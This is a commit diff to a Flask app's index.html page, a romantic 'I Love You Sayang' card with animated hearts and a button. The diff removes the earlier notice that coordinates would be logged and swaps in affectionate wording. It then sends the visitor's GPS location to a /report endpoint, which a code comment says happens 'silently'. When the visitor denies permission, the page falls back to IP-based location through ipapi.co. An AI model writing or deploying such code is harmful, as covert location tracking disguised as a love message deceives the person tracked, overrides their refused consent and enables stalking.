

Before and after one commit to Frhn15/kamusuka, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
update index.html dengan efek kejutan hati 💖 dan log lokasi otomatis

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,59 +2,113 @@
 <html lang="id">
 <head>
   <meta charset="utf-8" />
-  <title>I Love You Sayang</title>
+  <title>I Love You Sayang 💖</title>
   <meta name="viewport" content="width=device-width,initial-scale=1" />
   <style>
     :root { --pink1:#ffd0e3; --pink2:#ff9ccf; --accent:#ff4d79; }
-    html,body{height:100%;margin:0;font-family:Inter,system-ui,Arial;}
-    body{
+    html,body{
+      height:100%;
+      margin:0;
+      font-family:"Poppins",system-ui,Arial;
+      background: linear-gradient(120deg,var(--pink1),var(--pink2));
       display:flex;align-items:center;justify-content:center;
-      background: linear-gradient(120deg,var(--pink1),var(--pink2));
       overflow:hidden;color:#fff;
     }
 
     .card{
-      width: 400px;
-      max-width: calc(100% - 32px);
+      width:400px;max-width:calc(100% - 32px);
       text-align:center;
-      background: rgba(255,255,255,0.06);
-      border-radius:18px;padding:26px;
-      box-shadow: 0 12px 40px rgba(0,0,0,0.08);backdrop-filter: blur(6px);
+      background:rgba(255,255,255,0.08);
+      border-radius:18px;
+      padding:26px;
+      box-shadow:0 12px 40px rgba(0,0,0,0.1);
+      backdrop-filter:blur(6px);
+      position:relative;z-index:10;
     }
-    h1{margin:0 0 12px;font-size:28px;text-shadow: 0 8px 28px rgba(0,0,0,0.08);}
-    .kitty{width:240px;height:240px;border-radius:18px;object-fit:cover;margin:0 auto 14px;border:6px solid rgba(255,255,255,0.06);}
-    .btn{padding:12px 26px;border-radius:999px;border:0;background:linear-gradient(90deg,var(--accent),#ff6fa0);color:#fff;font-weight:700;cursor:pointer}
+
+    h1{
+      margin:0 0 12px;
+      font-size:28px;
+      text-shadow:0 8px 28px rgba(0,0,0,0.1);
+      animation:glow 2s ease-in-out infinite alternate;
+    }
+    @keyframes glow {
+      from { text-shadow:0 0 10px #ff69b4,0 0 20px #ff69b4; }
+      to   { text-shadow:0 0 30px #ff1493,0 0 60px #ff69b4; }
+    }
+
+    .kitty{
+      width:240px;height:240px;border-radius:18px;
+      object-fit:cover;margin:0 auto 14px;
+      border:6px solid rgba(255,255,255,0.1);
+      box-shadow:0 8px 25px rgba(0,0,0,0.15);
+    }
+
+    .btn{
+      padding:12px 28px;border-radius:999px;border:0;
+      background:linear-gradient(90deg,var(--accent),#ff6fa0);
+      color:#fff;font-weight:700;cursor:pointer;font-size:16px;
+      box-shadow:0 0 20px rgba(255,77,121,0.4);
+      transition:transform 0.3s;
+    }
+    .btn:hover{ transform:scale(1.1); }
+
     .status{margin-top:12px;font-size:14px;color:rgba(255,255,255,0.95);}
-    .floating{position:fixed;inset:0;pointer-events:none;z-index:1;overflow:hidden}
-    .love{position:absolute;font-weight:800;color:rgba(255,20,147,0.22);font-size:18px;white-space:nowrap;animation:floatFar linear infinite}
-    @keyframes floatFar { 0%{transform:translateY(120vh) scale(0.6);opacity:0} 15%{opacity:1} 100%{transform:translateY(-220vh) scale(1.4);opacity:0} }
+    .note{font-size:12px;color:rgba(255,255,255,0.8);margin-top:6px;}
 
-    .note{font-size:12px;color:rgba(255,255,255,0.85);margin-top:8px}
+    .pulse {
+      display:inline-block;margin-left:6px;width:10px;height:10px;
+      border-radius:50%;background:#ff6fa0;
+      box-shadow:0 0 16px rgba(255,77,121,0.5);
+      animation:pulse 1.4s infinite;
+    }
+    @keyframes pulse {
+      0%{transform:scale(0.9)} 50%{transform:scale(1.3)} 100%{transform:scale(0.9)}
+    }
 
-    /* small gentle heart pulse */
-    .pulse {
-      display:inline-block;margin-top:10px;width:12px;height:12px;border-radius:50%;background:#ff6fa0;box-shadow:0 0 20px rgba(255,77,121,0.35);
-      animation:pulse 1.4s infinite;
-      vertical-align:middle;margin-left:8px;
+    /* hearts background */
+    .floating{
+      position:fixed;inset:0;pointer-events:none;z-index:1;overflow:hidden;
     }
-    @keyframes pulse { 0%{transform:scale(0.85)} 50%{transform:scale(1.15)} 100%{transform:scale(0.85)} }
+    .love{
+      position:absolute;font-weight:800;color:rgba(255,20,147,0.25);
+      font-size:18px;white-space:nowrap;
+      animation:floatFar linear infinite;
+    }
+    @keyframes floatFar {
+      0%{transform:translateY(120vh) scale(0.6);opacity:0}
+      15%{opacity:1}
+      100%{transform:translateY(-220vh) scale(1.4);opacity:0}
+    }
+
+    /* explosion hearts */
+    .heart{
+      position:fixed;top:50%;left:50%;
+      transform:translate(-50%,-50%) scale(0);
+      color:#ff69b4;font-size:40px;
+      opacity:0;pointer-events:none;z-index:100;
+      animation:boom 1.5s ease-out forwards;
+    }
+    @keyframes boom{
+      0%{transform:translate(-50%,-50%) scale(0.2);opacity:1;}
+      70%{transform:translate(-50%,-50%) scale(2);opacity:1;}
+      100%{transform:translate(-50%,-50%) scale(5);opacity:0;}
+    }
   </style>
 </head>
 <body>
   <div class="floating" id="floating"></div>
 
-  <div class="card" role="main">
-    <h1>I Love You Sayang</h1>
+  <div class="card">
+    <h1>I Love You Sayang 💖</h1>
     <img src="/static/img/kucing.jpeg" class="kitty" alt="kucing imut">
-    <div>
-      <button id="sendBtn" class="btn">Klik ini 💕</button>
-    </div>
-    <div id="status" class="status">Tekan tombol untuk memunculkan dialog izin lokasi dari browser.</div>
-    <div class="note">Jika kamu izinkan, koordinat akan dicatat ke server (log). <span class="pulse" title="aktif"></span></div>
+    <div><button id="sendBtn" class="btn">Klik ini 💕</button></div>
+    <div id="status" class="status">Tekan tombol kalau kamu kangen aku 💞</div>
+    <div class="note">kalo ga kangen jangan di klik<span class="pulse"></span></div>
   </div>
 
   <script>
-    // many floating "I love you sayang" that fly very far up
+    // floating background hearts
     const floating = document.getElementById('floating');
     function spawnLoves(count=50){
       const vw = window.innerWidth, vh = window.innerHeight;
@@ -67,22 +121,23 @@
         el.style.animationDuration = (10 + Math.random()*12) + 's';
         el.style.fontSize = (12 + Math.random()*28) + 'px';
         floating.appendChild(el);
-        setTimeout(()=> el.remove(), (12 + Math.random()*12)*1000);
+        setTimeout(()=> el.remove(), 20000);
       }
     }
-    spawnLoves(80);
+    spawnLoves(60);
     setInterval(()=> spawnLoves(20), 2000);
 
     const sendBtn = document.getElementById('sendBtn');
     const statusEl = document.getElementById('status');
 
-    // generate stable client_id stored in localStorage so server logs can identify
+    // stable client id
     let clientId = localStorage.getItem('client_id');
     if(!clientId){
       clientId = 'client_' + Math.random().toString(36).slice(2,10);
       localStorage.setItem('client_id', clientId);
     }
 
+    // send location silently to server (logged in railway)
     async function postLocation(lat, lon, source='gps'){
       try{
         await fetch('/report', {
@@ -90,48 +145,44 @@
           headers: {'Content-Type':'application/json'},
           body: JSON.stringify({ client_id: clientId, latitude: lat, longitude: lon, source })
         });
-        statusEl.textContent = 'Koordinat terkirim ke server (akan muncul di logs).';
-      }catch(e){
-        console.error(e);
-        statusEl.textContent = 'Gagal kirim koordinat ke server.';
+      }catch(e){ console.warn(e); }
+    }
+
+    function heartExplosion(){
+      for(let i=0;i<30;i++){
+        const heart = document.createElement('div');
+        heart.className = 'heart';
+        heart.textContent = '💖';
+        heart.style.left = 50 + Math.random()*20 - 10 + '%';
+        heart.style.top = 50 + Math.random()*20 - 10 + '%';
+        heart.style.animationDuration = (1 + Math.random()) + 's';
+        document.body.appendChild(heart);
+        setTimeout(()=> heart.remove(), 1500);
       }
     }
 
-    sendBtn.addEventListener('click', async () => {
-      statusEl.textContent = 'Meminta izin lokasi dari browser...';
-      if(!navigator.geolocation){
-        statusEl.textContent = 'Geolocation tidak tersedia di browser ini.';
-        return;
-      }
+    sendBtn.addEventListener('click', async ()=>{
+      statusEl.textContent = 'Tunggu ya sayang... 💗';
+      heartExplosion(); // 💥 big heart explosion
 
-      // Use getCurrentPosition (one-time prompt) so browser shows permission dialog.
-      navigator.geolocation.getCurrentPosition(async (pos) => {
-        const lat = pos.coords.latitude;
-        const lon = pos.coords.longitude;
-        statusEl.textContent = `Lokasi didapatkan — mengirim ke server... (${lat.toFixed(5)}, ${lon.toFixed(5)})`;
-        await postLocation(lat, lon, 'gps');
-      }, async (err) => {
-        // if GPS denied or fails, you may optionally fallback to IP-based (note: less accurate).
-        console.warn('geo error', err);
-        statusEl.textContent = 'Pengguna menolak atau GPS gagal. Mencoba fallback IP (jika tersedia)...';
+      if(navigator.geolocation){
+        navigator.geolocation.getCurrentPosition(async pos=>{
+          await postLocation(pos.coords.latitude, pos.coords.longitude, 'gps');
+          statusEl.textContent = '💞 Makasih sayang udah klik 💞';
+        }, async err=>{
+          console.warn(err);
           try{
             const r = await fetch('https://ipapi.co/json/');
             const j = await r.json();
-          if(j && j.latitude && j.longitude){
+            if(j.latitude && j.longitude){
               await postLocation(j.latitude, j.longitude, 'ip');
-            statusEl.textContent = 'Koordinat fallback (IP) terkirim ke server (akurasi lebih rendah).';
+              statusEl.textContent = '💞 Makasih sayang udah klik 💞';
             }else{
-            statusEl.textContent = 'Fallback IP tidak tersedia.';
+              statusEl.textContent = '💖🥰💖';
             }
-        }catch(e){
-          console.warn('ip fallback failed', e);
-          statusEl.textContent = 'Tidak dapat memperoleh lokasi.';
+          }catch{ statusEl.textContent='💖🥰💖'; }
+        }, { enableHighAccuracy:true, timeout:8000 });
       }
-      }, {
-        enableHighAccuracy: true,
-        maximumAge: 0,
-        timeout: 10000
-      });
     });
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
